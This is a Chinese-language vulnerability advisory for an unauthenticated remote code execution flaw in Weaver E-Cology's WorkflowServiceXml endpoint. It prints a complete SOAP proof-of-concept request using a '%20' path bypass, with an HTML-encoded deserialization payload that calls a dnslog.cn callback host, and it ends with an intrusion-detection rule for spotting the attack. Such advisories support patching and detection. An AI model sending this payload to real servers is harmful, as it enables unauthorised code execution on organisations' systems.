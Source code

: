 ## 泛微 E-Cology WorkflowServiceXml 远程代码执行漏洞

### 0X 01、漏洞描述

泛微E-cology OA系统的WorkflowServiceXml接口可被未授权访问，攻击者调用该接口，可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程代码执行

### 0X 02、漏洞验证

Target + **/services%20/WorkflowServiceXml**

**Post_Data**

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="webservices.services.weaver.com.cn">
   <soapenv:Header/>
   <soapenv:Body>
      <web:doCreateWorkflowRequest>
    <web:string>
&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&lt;&#109;&#97;&#112;&gt;&#13;&#10;&#32;&#32;&#9;&#9;&#9;&lt;&#101;&#110;&#116;&#114;&#121;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#9;&#9;&#9;&lt;&#117;&#114;&#108;&gt;&#104;&#116;&#116;&#112;&#58;&#47;&#47;&#53;&#98;&#50;&#101;&#110;&#115;&#46;&#100;&#110;&#115;&#108;&#111;&#103;&#46;&#99;&#110;&lt;&#47;&#117;&#114;&#108;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#9;&#9;&#9;&lt;&#115;&#116;&#114;&#105;&#110;&#103;&gt;&#104;&#116;&#116;&#112;&#58;&#47;&#47;&#53;&#98;&#50;&#101;&#110;&#115;&#46;&#100;&#110;&#115;&#108;&#111;&#103;&#46;&#99;&#110;&lt;&#47;&#115;&#116;&#114;&#105;&#110;&#103;&gt;&#13;&#10;&#32;&#9;&#9;&#9;&#32;&lt;&#47;&#101;&#110;&#116;&#114;&#121;&gt;&#13;&#10;&#9;&lt;&#47;&#109;&#97;&#112;&gt;//(此处需要HTML Decode解密即可查看Payload，攻击时同样也需要加密HTML Encode)
    </web:string>
        <web:string>2</web:string>
      </web:doCreateWorkflowRequest>
   </soapenv:Body>
</soapenv:Envelope>
```

<font color=red >如下图：</font>

![image-20210712153210694](image/image-20210712153210694.png)



### 0X 03、漏洞检测相关

**规则如下：**

```ruby
alert http any any -> $EXTERNAL_NET $HTTP_PORTS (msg:"泛微 E-Cology WorkflowServiceXml 远程代码执行漏洞"; flow:established,to_server; content:"doCreateWorkflowRequest"; nocase; pcre:"/services\x2520/i"; content:"POST"; http_method; nocase; content:"WorkflowServiceXml"; http_uri; nocase; classtype:web-application-attack; sid:2020233; rev:1;)
```

### 0X 04、 验证如下

![image-20210709140329060](image/image-20210709140329060.png)

